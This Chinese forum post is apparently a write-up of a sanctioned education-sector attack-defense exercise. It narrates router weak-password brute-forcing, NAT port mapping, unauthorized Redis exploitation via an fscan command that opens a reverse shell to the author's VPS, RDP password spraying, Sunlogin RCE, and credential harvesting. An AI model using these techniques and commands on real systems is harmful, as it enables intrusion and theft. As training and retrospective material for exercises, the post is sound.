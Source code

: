 0x00 背景
=======

记一次EDU攻防,来之前还是有点怂的，因为前段时间刚打了其它地方EDU感受了一波，小部分目标有重合好难打啊（Too vegetable），不是很正式的感觉队伍也不多，目标分下来混战打，拿到目标表一看。

我敲了一大半的内网地址大部分都是些视频监控系统

0x01 信息收集
=========

拿到目标表之后就是信息收集了，挑了几个目标fscan快速识别一波资产没啥东西呀，web页面有个内网地址泄露记一下，可以确定这个ip是在服务器段的，我还没进去内网呢要这破ip干嘛

上超级弱口令检测工具扫一波弱口令，telnet口令爆破到一个h3c设备口令，成功登陆到设备是个管理员权限，开启web访问看了下有ssl vpn功能和授权，那么可以直接建ssl vpn把内网打通。

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-f5714cb35865b776fe3700f02a30cd88ec83224b.png)

菜狗不会配啊，只有抓苦力找L师傅给我看看了

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-1ff66ecf585a94fe6f95a1a152d1faafe117ea6e.png)

白嫖L师傅干活给了个设备型号让他去翻一波手册，吃完饭回来L师傅很自信跟我说你的需求我清楚了不就把内网放出来嘛（简简单单），L师傅远程我电脑telnet命令行配置界面敲下神秘代码（高手高手），然后piapia打脸哈哈哈

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-a57e7f1d5429412437fd9fb18f566291263af92a.png)

设备太老了第一条命令就配不上，网上能找到的手册都是命令行配置，web界面配置L师傅看了半天也没整起，ssl vpn端口是通了但是连不上啊，吐槽了一波L师傅不靠谱，piapia打脸的L师傅试图解释一波（这设备出厂我都还在上初中怎么这设备还不退市啊），浪费一个小时时间没搞出来已经晚上一点了，睡觉吧明天找c师傅帮忙看看。

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-a104158d172e88c23c657e8f2eea7d6b12879970.png)

第二天找c师傅看了一下也搞不上敲了这下咋办啊，设备有telnet、ping功能，看了下设备上路由表确定了有2、3、5、6网段，telnet测试了一波网段一头一尾的IP，根据端口开放情况确定了2网段都是些服务器、3网段没法确定、5网段应该也是部分服务器段还有些无线ap设备。

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-c9d572272ab83f614a7e4488ceb11469fbebecec.png)

通过telnet登陆到5网段的无线AP，可以执行部分命令，如ifconfig、ps -aux，其它命令都被屏蔽了，web界面比较简单没有什么功能，没有找到相关的漏洞。

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-022aad2ef21cf47b862709c6126c44a1b2f115fe.png)

翻了下官网的产品手册，看到一个无线网关的设备手册里面功能有vpn功能，那如果能找到这个无线网关设备不就可以做个vpn了吗

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-36c1e0e4e0cba19fa372632b26407d06af61ecce.png)

找了一圈没找到无线网关，放弃了，还是想想其他办法吧。现在我们手上有外网路由器的管理权限还有内网无线ap的权限，外网路由器可以telnet、ping探测IP和端口存活、nat端口映射。

那现在我们只有笨方法了，试试运气去探测内网的脆弱端口如22、1433、3389、6379、7001，说干就干，之前在信息收集的时候确定了靶标IP段在2段，那么我们直接按照靶标的IP前后去探测上面的脆弱端口，如果端口开放那么我们就在路由器上做个映射到公网上面。

简单探测了一波22端口写好nat配置到路由器上面先爆破一下

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-ae125f332813b9bfd70c1bfc3de8630388975516.png)

0x02 突破口
========

人麻了，一个弱口令都没有，IP继续往前推探测6379端口，发现一个redis服务。

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-d95541ea64639598899a481703df7b7997840205.png)

总算找到一个可以打的端口，这里在华三路由器telnet过去我不知道为啥我输入info没有返回未授权的信息，映射到外网输入info是直接返回未授权，直接端口映射到外网直接用fscan打一下。

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-543cb03a9178357bd89c153b7fb70297a957f702.png)

芜湖，fscan创建个计划任务弹到vps上面。

```shell
fscan_amd64.exe -h *.*.*.* -p 6379 -rs *.*.*.*:1234
```

等待获取到shell

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-e57936d1373f99d8d6c79a6e5794c98d8a0ba84b.png)

芜湖，冲冲冲

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-f6804a5014328fc5f363e7a7e2f1666202f4fbec.png)

0x03 内网横向
=========

拿到了内网机器权限，直接开冲，先上一波fscan撞一波之前我们收集到的密码。

```shell
fscan_amd64.exe -h *.*.*.*/16 -pa 3389 -pwd ***** -np
```

运气比较好，撞密码撞到了两个机器，上个向日葵rce继续冲。

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-516f9b0df71e8b11c5a141e10f95ab04ee676317.png)

内网翻出来一堆向日葵rce，能正常执行命令的就一台，难受了呀，powershell上线到cs上面，加账号远程到服务器，常规操作翻文件、浏览器密码、找内网管理员IP这些。

数据库账号，成功连接到数据库。

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-32de6f1b5d063ac8542d39c8878c281a1b252b13.png)

QQ文件里面有向日葵远程码，可惜了连接不上。

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-abf1565f37ec01dd3661dfa303f456d1e2489387.png)

在日志里面看登陆日志确定管理员IP，探测了下管理员地址不在线，上线另外两个rdp爆破出来的机器，浏览器保存了上网行为管理密码，直接登陆到后台了。

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-36daa93dae1f7f281b1a141c442207123d71d594.png)

刚才fscan扫描出一些交换机设备，尝试用同样的密码登陆，拿到了8台交换机权限。

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-3473896510af0879ae6a64b9b483d20408770e37.png)

网络设备分数上限2k，之前无线ap已经把分数打满了，交了也是白交，继续看靶标系统和虚拟化平台，没有一个能可以打的，刚才的设备万能密码也没用。

![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-c41fbcc94dc02ce1beb6c9a105d5dac7b96b9021.jpeg)

kscan再扫描下，发现一些应该是移动终端设备，adb直接连接上去大概60台左右算物联网分数上限直接满了，靶标拿不下难受啊，就这样吧交报告溜了溜了。

0x04 总结
=======

这次攻防整体的反思，外网打点信息收集尽量宽泛仔细一些，在现场打压力还是大的打不出来东西就是在坐牢，和队伍里师傅第一次协作不是很好没有沟通好打哪个目标好点，师傅第一次打也很懵逼，我打的多之前都是旁边辅助混子哈哈哈，信息同步还是比较重要的，内网横向这块还得学啊太菜了太菜了，还有就是免杀和bypass av跟师傅们学了一波姿势，之前没弄过上不了线真是一脸懵逼，最后差个几千分结束了。

文章里面这个目标案例打的也不是像我写的这么顺利，在测试脆弱端口的时候人麻了，测试了有个一个多小时一个能打的都没有，中午去吃饭路上都想着回来写python脚本做telnet批量测试，吃饭回来坐在那摆烂随便测了下结果测出个redis未授权才撕开了一个口子。

还有就是打的时候一定不能把自己轴进去了，一定要多跟队伍里师傅沟通想法怎么做，多个人多种思路，一个点上浪费了太多时间一定要及时调整寻找其它突破点，这个在突破到内网那里我就很轴，当时我就想把ssl vpn建立起来但是就是建立不起来，c师傅喊我换个思路把端口映射出来打，最后想想确实在ssl vpn那块浪费太多时间，一定及时调整自己思路。

文章到此结束，写到这里还是觉得内容比较少不够精彩，纯当记录混个稿费吧哈哈哈，文章内容姿势比较少，师傅们多分享下外网打点、bypass av这块的文章，让弟弟也学习一下欢迎各位师傅们来交流。